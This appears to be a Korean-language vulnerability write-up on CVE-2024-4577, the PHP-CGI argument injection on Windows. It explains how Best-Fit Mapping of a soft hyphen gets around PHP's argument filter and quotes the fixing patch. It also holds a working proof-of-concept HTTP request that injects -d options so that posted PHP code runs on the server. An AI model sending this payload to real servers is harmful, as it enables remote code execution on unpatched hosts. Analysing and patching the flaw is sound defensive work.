

## URL

https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/?ref=labs.watchtowr.com

## Target

- PHP 8.3 < 8.3.8
- PHP 8.2 < 8.2.20
- PHP 8.1 < 8.1.29


## Explain

Windows 환경에서 PHP가 CGI 모드로 실행될 경우, Argument Injection을 통한 RCE 취약점이 발견되었습니다.

취약점은 특정 유니코드 문자를 통해 CVE-2012-1823 보호기법을 우회할 수 있습니다.

```
    0x0000 0x00; Null
    0x0001 0x01; Start Of Heading
    ...
    0x0061 0x61; Latin Small Letter A
    0x0062 0x62; Latin Small Letter B
    0x0063 0x63; Latin Small Letter C
    ...
    0x221e 0x38; Infinity                        << Best Fit Mapping
    ...
    0xff41 0x61; Fullwidth Latin Small Letter A  << Best Fit Mapping
    0xff42 0x62; Fullwidth Latin Small Letter B  << Best Fit Mapping
    0xff43 0x63; Fullwidth Latin Small Letter C  << Best Fit Mapping
    ...
```

Windows는 유니코드 문자를 다른 문자 인코딩으로 변환할 때 Best-Fit Mapping 기능을 사용합니다.

Best-Fit Mapping은 가장 유사한 다른 문자로 매핑하여 변환하는 기능으로, 유니코드 문자를 지원하지 않는 시스템에서도 최대한 유사한 문자로 표현할 수 있도록 합니다.





PHP는 Windows의 로케일(언어, 지역…) 설정을 따르게 되며, Best-Fit Mapping을 통해 변환된 ASCII 문자를 처리하게 됩니다.

취약점은 유니코드 문자 `&shy`(0xAD - 소프트 하이픈)이 Best-Fit Mapping을 통해 `-`(0x2D - 하이픈)으로 변환되어 발생했습니다.

CGI 핸들러는  `-`(0x2D)는 필터링하지만,  `&shy`(0xAD)는 필터링하지 않아, Best-Fit Mapping을 통해 변환된 `-` (0x2D)으로 Argument Injection을 트리거 할 수 있습니다.

현재까지는 중국어 번체(코드 페이지 950), 중국어 간체(코드 페이지 936), 일본어(코드 페이지 932) 로케일에서 발생하는 것으로 확인되었습니다.


```

    POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
    Host: {{host}}
    User-Agent: curl/8.3.0
    Accept: */*
    Content-Length: 23
    Content-Type: application/x-www-form-urlencoded
    Connection: keep-alive

    <?php
    phpinfo();
    ?>

```


공격자는 `&shy`(0xAD)을 이용하여 PHP 명령 옵션 `-d`를 전달함으로써 PHP 설정을 변경하고, 악의적인 PHP 코드를 실행시킬 수 있습니다.


```
    /* On Windows we have to take into account the "best fit" mapping behaviour. */
    #ifdef PHP_WIN32
            if (*p >= 0x80) {
                wchar_t wide_buf[1];
                wide_buf[0] = *p;
                char char_buf[4];
                size_t wide_buf_len = sizeof(wide_buf) / sizeof(wide_buf[0]);
                size_t char_buf_len = sizeof(char_buf) / sizeof(char_buf[0]);
                if (WideCharToMultiByte(CP_ACP, 0, wide_buf, wide_buf_len, char_buf, char_buf_len, NULL, NULL) == 0
                    || char_buf[0] == '-') {
                    skip_getopt = 1;
                }
            }
    #endif

```

해당 취약점은 `WideCharToMultiByte` 함수를 사용하여 유니코드 문자를 변환하고, 해당 문자가 하이픈인지 검사하는 코드가 추가되어 [패치](https://www.php.net/downloads) 되었습니다.


## Reference

- https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ucoderef/d1980631-6401-428e-a49d-d71394be7da8

- https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/